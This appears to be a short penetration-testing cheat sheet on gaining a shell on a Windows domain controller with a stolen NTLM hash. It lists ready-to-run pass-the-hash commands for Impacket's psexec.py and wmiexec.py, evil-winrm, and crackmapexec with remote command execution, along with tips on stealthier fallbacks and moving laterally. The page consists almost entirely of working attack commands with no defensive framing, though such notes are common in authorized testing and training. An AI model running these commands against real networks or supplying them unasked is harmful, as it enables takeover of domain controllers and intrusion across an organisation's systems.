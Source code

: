 
[[Evil-WinRM]]


Getting a Shell (or similar control)

1. Pass-the-Hash with psexec.py (Impacket)
   `psexec.py -hashes <LMHASH>:<NTHASH> 'DOMAIN/Administrator@DC_IP'`
   This often gives you a full shell on the DC.
   Use '' for LMHASH if it's empty.

2. SMBexec or WMIexec
   More stealthy or fallback if psexec.py fails.
   `wmiexec.py -hashes :<NTHASH> 'DOMAIN/Administrator@DC_IP'`
   These may provide limited shells, but still enough to move laterally or execute payloads.

3. Evil-WinRM (if WinRM is open)
   `evil-winrm -i DC_IP -u Administrator -H <NTHASH>`
   Check with nmap or crackmapexec if WinRM (5985/5986) is open.

4. Pass-the-Hash via crackmapexec
   `crackmapexec smb DC_IP -u Administrator -H <NTHASH> --exec-method smbexec -x "whoami"`
   Add --local-auth if it's not domain-joined or you're unsure.

